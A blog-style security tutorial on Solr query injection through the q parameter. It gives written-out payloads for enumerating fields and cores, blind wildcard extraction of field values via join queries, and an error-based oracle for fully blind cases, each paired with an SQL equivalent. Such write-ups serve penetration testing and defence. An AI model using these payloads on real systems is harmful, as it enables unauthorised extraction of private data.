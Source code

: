 ```yaml
---
layout: post
title: Solr Query Injection
categories: security
---
```


[Apache Solr](https://solr.apache.org/) is a NoSQL datastore that is typically used as an enterprise search platform.

Most resources on Solr injection seem to be about CVEs or [injecting additional parameters](https://github.com/veracode-research/solr-injection) into calls to the Solr REST API. This post covers some techniques you can use when you only have control over the q parameter and are interested in extracting data from the index itself.

The techniques may not be applicable in newer versions of Solr as the [default settings were changed](https://lucene.apache.org/solr/guide/8_6/major-changes-in-solr-8.html#solr-7-2) in Solr 7.2 to limit when switching query parsers is allowed. These techniques may still work if the target has `luceneMatchVersion` set to 7.1.0 or lower in their solrconfig.xml file.

For the purposes of this post we'll assume the query you're injecting into looks like this:

```
somefield:INJECTIONPOINT
```

## Basics

Solr supports running multiple indexes, called cores, with separate configurations on the same server. This section covers techniques where the information you want is in the same core as the query injection location.

### Enumerate available fields in the current core

This is a brute force guessing game.

```
* AND FIELDNAMEGUESS:*
```

If you still get results, the field exists. If you get an error or no results, the field doesn't exist.

### Extract query parameters

Determining the value of the [common query parameters](https://lucene.apache.org/solr/guide/8_6/common-query-parameters.html) will help you understand the context your query is in.

```
* AND {!switch case='notarealfieldthiswillerrorout:5' case.1='*:*' v=$rows}
```

if `$rows` exists and equals 1, this will work, otherwise you will get an error.

### Field values extraction

Solr supports [limited join functionality](https://solr.apache.org/guide/8_11/other-parsers.html#join-query-parser) that is similar to an SQL inner-query.

The following query
```
* AND {!join from=knownfield to:knownfield v='other_condition'}
```

is [roughly equivalent to this SQL](https://lucene.apache.org/solr/guide/8_6/other-parsers.html#join-query-parser)

```sql
SELECT *
FROM current_core
WHERE knownfield IN (SELECT knownfield
                     FROM current_core
                     WHERE other_condition)
```

If your query returns any results you know that there was a row in the table where `other_condition` was true.

Similar to blind SQL injection, you can use this by making other_condition increasily specific until it matches only one record and then brute force values of additional fields on the record using wildcards.

```
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:m*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:ma*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:mag*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magi*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magic'}
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_current_core to=field v="{!join from=any_field_on_current_core to=any_field_on_current_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_current_core
                FROM current_core
                WHERE any_field_on_current_core IN (SELECT any_field_on_current_core
                                                  FROM current_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is any row in `current_core` where `other_condition` is true.

## Working across cores

Solr joins can be used to extract data from cores other than one currently being queried.

### Enumerate other cores in the index

This is a brute force guessing game. You have to guess both the name of the other core and the name of a field in it in one go.

If you found any generic-sounding field names in the previous section like `id`, I recommend you assume other cores have that field and just guess core names.

```
* AND {!join from=KNOWNFIELD fromIndex=CORENAMEGUESS to:KNOWNFIELD v='*:*'}
```

### Cross-core field value extraction

After enumerating some other cores and fields, you can modify the join to extract values from joined documents.

The following query:

```
* AND {!join from=field_on_other_core fromIndex=other_core to:KNOWNFIELD v='other_condition'}
```

is roughly equivalent to

```sql
SELECT * FROM current_core
WHERE KNOWNFIELD IN (SELECT field_on_other_core
                     FROM other_core
                     WHERE other_condition)
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_other_core fromIndex=other_core to=field v="{!join from=any_field_on_other_core fromIndex=other_core to=any_field_on_other_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_other_core
                FROM other_core
                WHERE any_field_on_other_core IN (SELECT any_field_on_other_core
                                                  FROM other_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is a row in `other_core` where `other_condition` is true.

## Fully blind injection

Sometimes a site is querying Solr behind the scenes with user input but the results are never shown to the user. If you find an injection point in such a query, it may still be possible to extract information by triggering an Internal Sever Error if the query result set is empty.

```
* AND {!frange l=1 v='def(query({!edismax v="SOMECONDITION*"}),"a")'}
```

The [frange](https://solr.apache.org/guide/8_11/other-parsers.html#function-range-query-parser) query parser expects a number as input. With this query, if `SOMECONDITION` matches something, [def](https://solr.apache.org/guide/8_11/function-queries.html#def-function) passes the document score to frange, otherwise it passes the string "a" which causes an error.